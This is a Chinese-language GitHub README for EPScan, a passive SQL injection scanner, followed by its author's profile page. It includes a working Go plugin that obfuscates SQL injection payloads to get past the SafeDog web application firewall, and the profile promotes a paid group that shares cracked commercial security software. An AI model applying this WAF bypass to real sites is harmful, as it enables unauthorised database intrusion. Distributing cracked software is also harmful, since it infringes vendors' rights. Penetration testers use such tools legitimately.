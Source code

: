 # EPScan
被动收集资产并自动进行SQL注入检测（插件化 自动Bypass）、XSS检测、RCE检测、敏感信息检测

## 程序介绍
- [x] ~~自动更新Bypass插件~~
- [x] ~~SQL注入自动Bypass~~
- [x] ~~SQL注入支持Get/Post布尔盲注~~
- [x] ~~SQL注入支持请求头Get/Post报错注入~~
- [x] ~~SQL注入自动加载Bypass插件~~

* SQL注入漏洞检测

  * 移植SqlMap的检测模式

  * 插件化Payload改造

  * 插件化Bypass模式

  * 支持Get/Post报错注入

  * 支持Get/Post布尔盲注

  * 支持请求头Get/Post报错注入

  * 自动加载Bypass插件


- [ ] XSS漏洞检测

- [ ] Rce漏洞检测

- [ ] 敏感信息检测

## 程序截图

## 使用教程

```
./EPScan -h

Usage of /EPScan:
  -deep 	bool 	// 选择后开启，默认不开启，不开效率快但是误报微高
        深入扫描（降低效率提高准确率）
  -pdelay 	string 	// 需带有http协议头，看例子
        流量转发（程序的流量转发到指定端口，例如Burp的8080端口: http://127.0.0.1:8080) 
  -pdir 	string	// 加载指定目录下所有的插件，默认不进行Bypass
        批量加载指定目录下的Bypass插件
  -plist 	string	// 查看插件信息，默认输出 "plus/" 目录下的插件信息
        查看插件列表和详细信息 (default "plus/")
  -port 	string	// 开启监听端口
        监听端口配置 (default "8899")
  -ptest 	string	// 测试指定插件效果 会输出原始Payload和处理后的Payload
        插件测试
  -run 		bool	// 开始被动式扫描，例如：./EPScan -pdir plus/ -port 8899 -run
        开始被动式扫描
```

## SQL注入Bypass插件编写

**联系微信：backxyh 贡献大于5个插件即可进入内测群（优先发布测试版和最新版，大量优秀Bypass方案及插件共享）**

### 例：

```
package main //包名必须为 "main"

import (
	"strings"
)

var ( // 全局变量必须包含以下三个参数
	Plus_Author   = "ExpLang"        // 插件作者
	Plus_Version  = "1.0"            // 插件版本
	Plus_Describe = "Bypass_SafeDog" // 插件描述
)

func Bypass(Value string) string { // 主函数名必须为 "Bypass" 区分大小写，参数为String，返回值为String，思路：传入原始Payload，返回处理后的Payload。

	var Value_Bypass string
	var bypass_SafeDog_str = "/*x^x*/"
	Value_Bypass = strings.Replace(Value, "UNION", bypass_SafeDog_str+"UNION"+bypass_SafeDog_str, -1) // 寻找指定字符串并全部替换
	Value_Bypass = strings.Replace(Value_Bypass, "SELECT", bypass_SafeDog_str+"SELECT"+bypass_SafeDog_str, -1)
	Value_Bypass = strings.Replace(Value_Bypass, "AND", bypass_SafeDog_str+"AND"+bypass_SafeDog_str, -1)
	Value_Bypass = strings.Replace(Value_Bypass, "=", bypass_SafeDog_str+"="+bypass_SafeDog_str, -1)
	Value_Bypass = strings.Replace(Value_Bypass, " ", bypass_SafeDog_str, -1)
	Value_Bypass = strings.Replace(Value_Bypass, "information_schema.", "%20%20/*!%20%20%20%20INFOrMATION_SCHEMa%20%20%20%20*/%20%20/*^x^^x^*/%20/*!.*/%20/*^x^^x^*/", -1)
	Value_Bypass = strings.Replace(Value_Bypass, "FROM", bypass_SafeDog_str+"FROM"+bypass_SafeDog_str, -1)

	return Value_Bypass // 返回处理后的Payload。
}

```
### 编译为插件：

```
sudo go build --buildmode=plugin -o plus/bypass_name.so bypass/bypass_name/bypass_name.go
```

编译后可以看到plus目录下新增了一个名为："bypass_name"的so文件，运行程序：

```
./EPScan -pluslist

+----+---------+---------+-------------------------------+-------------------------------+
| ID | AUTHOR  | VERSION |           DESCRIBE            |             PATH              |
+----+---------+---------+-------------------------------+-------------------------------+
| 1  | ExpLang | 1.0     | Bypass_SafeDog                | plus/bypass_SafeDog.so        |
| 2  | ExpLang | 1.0     | 替换 "'" 单引号为 "%EF%BC%87"   | plus/bypass_apostrophemask.so |
| 3  | ExpLang | 1.0     | 测试/演示   		         | plus/bypass_name.so           |
+----+---------+---------+-------------------------------+-------------------------------+
```

### 测试插件

```
./EPScan -ptest "plus/bypass/bypass_name/bypass_name.go"
```

----

### Hi there 👋

<!--
**ExpLangcn/ExpLangcn** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->

![](https://komarev.com/ghpvc/?username=ExpLangcn)

- 😄 I’m ExpLang
- 我的后续安全项目将会发布在：**[Security-Magic-Weapon 组织](https://github.com/Security-Magic-Weapon) 点击查看！**
- Telegram频道：**[安全技术资讯聚合](https://t.me/sec_info) 实时更新国内外700+个黑客安全技术论坛/社区/博客/公众号的技术文章.**
- Telegram频道：**[安全资源整合互推](https://t.me/secyq) 一个用于收录Telegram上 安全行业 黑客技术 并且还会自动推送最新的CVE漏洞、CNVD漏洞、最新的红队工具等。**

### 我的个人知识星球

本星球会**每日更新**全网优秀安全资源包括但不限于：**安全工具**、**安全脚本**、**安全学习资料**、**安全商业产品的破解版**等，资源方向均与安全各领域相关。

本星球建有运营微信群可及时在群内反馈和互动（索取安全资源），并在运营微信群内拥有Bot机器人用于通知星球最新动态方便各位星友不错过任何优秀动态。

本星球会针对安全资源进行**严格的分类**，方便各位星友可以**快速定位**自己所需的资源，及给各位星友带来更好的**阅读体验**。

本星球会**每月**进行一次**优质资源统计**，会根据本阅读点赞/评论/阅读/下载最多的资源进行排序方便大家更好的浏览。

并且本星球将会**每季度**进行一次**星友知识共享直播**，仅限本星球的星友参与，直播会邀请星球内的部分大佬或在外部邀请在某领域有所建设的大佬进行**免费的知识共享**，并且本星球的续费折扣是平台的最低**5折折扣**！

<img src=https://tva1.sinaimg.cn/large/006y8mN6gy1h6tocodn91j30ku0bggm5.jpg width=40% />



---

<!-- 
[![ExpLangcn's GitHub stats](https://github-readme-stats.vercel.app/api?username=ExpLangcn)](https://twitter.com/ExpLang_Cn)
[![Top Langs](https://github-readme-stats.vercel.app/api/top-langs/?username=ExpLangcn&layout=compact)](https://twitter.com/ExpLang_Cn) -->

<div>
  <a href="https://twitter.com/ExpLang_Cn">
    <img align="left" height="160" src="https://github-readme-stats.vercel.app/api/top-langs/?username=ExpLangcn&layout=compact" />
  </a>
  <a href="https://github.com/ExpLangcn/ExpLangcn/edit/main/README.md">
    <img align="left" height="160" src="https://github-readme-stats.vercel.app/api?username=ExpLangcn&show_icons=true&count_private=true" />
  </a>
</div>
